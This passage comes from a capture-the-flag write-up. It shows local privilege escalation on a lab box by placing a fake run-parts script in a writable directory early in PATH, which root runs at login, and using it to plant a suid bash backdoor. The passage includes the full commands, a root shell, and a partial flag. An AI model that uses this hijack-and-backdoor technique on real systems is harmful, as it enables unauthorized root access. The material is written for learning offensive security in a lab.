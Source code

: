 
A few things happen there, but the most interesting is the three commands that are initiated with `sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new`.

### Hijack run-parts

When a user logs in, root runs `sh`, which runs `/usr/bin/env`, which provides a specific path and runs `run-parts` on the `update-motd.d` folder. I’ll immediately notice that the `$PATH` includes at the front the two folders I can write to.

I will write a script to `/usr/local/bin/run-parts`, make sure it’s executable, and then `ssh` in again:

```

jkr@writeup:~$ echo -e '#!/bin/bash\n\ncp /bin/bash /bin/0xdf\nchmod u+s /bin/0xdf' > /usr/local/bin/run-parts; chmod +x /usr/local/bin/run-parts
jkr@writeup:~$ cat /usr/local/bin/run-parts
#!/bin/bash

cp /bin/bash /bin/0xdf
chmod u+s /bin/0xdf

```

Now I can `ssh` in, and my new backdoored shell is waiting:

```

jkr@writeup:~$ ls -l /bin/0xdf
-rwsr-xr-x 1 root root 1099016 Jun 17 02:29 /bin/0xdf

```

Because it’s `bash` and it drops suid privs by default, I’ll run with `-p` to keep root:

```

jkr@writeup:~$ 0xdf -p
0xdf-4.4# id
uid=1000(jkr) gid=1000(jkr) euid=0(root) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)

```

And I can grab `root.txt`:

```

0xdf-4.4# cat /root/root.txt
eeba47f6...

```

## Beyond Root - Playing with perl
